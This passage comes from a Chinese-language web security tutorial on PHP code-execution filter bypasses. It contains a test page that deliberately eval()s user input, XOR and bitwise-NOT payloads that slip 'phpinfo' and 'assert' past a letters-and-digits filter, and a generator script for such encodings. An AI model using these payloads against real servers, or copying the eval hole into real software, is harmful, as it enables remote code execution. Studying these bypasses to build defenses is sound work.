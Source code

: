 ```````
       $k = chr($j)^chr(255);
       if($k == $argv[$i]){
           if($j<16){
               $l .= "%ff";
               $r .= "%0" . dechex($j);
               continue;
           }
           $l .= "%ff";
           $r .= "%" . dechex($j);
           continue;
       }
   }
}
echo "('$l')^('$r')";
?>


// ('%ff%ff%ff%ff')^('%a0%b8%ba%ab')
```
测试的php代码
```php
<meta charset="utf-8">
<?php
if(!preg_match('/[a-z0-9]/is',$_GET['shell'])) {
    // 过滤所有的数字和字母
    $a = $_GET['shell'];
    echo '<br>服务器看到的参数是：' . $a;
    eval($a);
}
?>
```
使用如下payload
```
http://localhost:8080/test.php?shell=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo

其实传入的是shell=$_GET{%ff特殊字符}();&%ff特殊字符=phpinfo
当服务器读取$_GET['shell']的时候，会拿到一堆乱码，所以waf无法通过规则过滤
即使过滤了所有的字母和数字，一样会触发代码执行漏洞
```
![image-20240228170256481](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228170256481.png)
#### 取反
取反的符号是~，也是一种运算符。在数值的二进制表示方式上，将0变为1，将1变为0。
```php
<?php
$a = urlencode(~'phpinfo');
echo $a;
// %8F%97%8F%96%91%99%90
?>
```
**PHP 5 和 PHP 7 的区别**
（1）在 PHP 5 中，assert()是一个函数，我们可以用`$_=assert;$_()`这样的形式来实现代码的动态执行。但是在 PHP 7 中，assert()变成了一个和eval()一样的语言结构，不再支持上面那种调用方法。（但是好像在 PHP 7.0.12 下还能这样调用）
（2）PHP5中，是不支持($a)()这种调用方法的，但在 PHP 7 中支持这种调用方法，因此支持这么写('phpinfo')();
![image-20240228170302682](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228170302682.png)

#### 构造POST
```php
%9E^%FF=>a
%8C^%FF=>s
%9A^%FF=>e
%8D^%FF=>r
%8B^%FF=>t
```````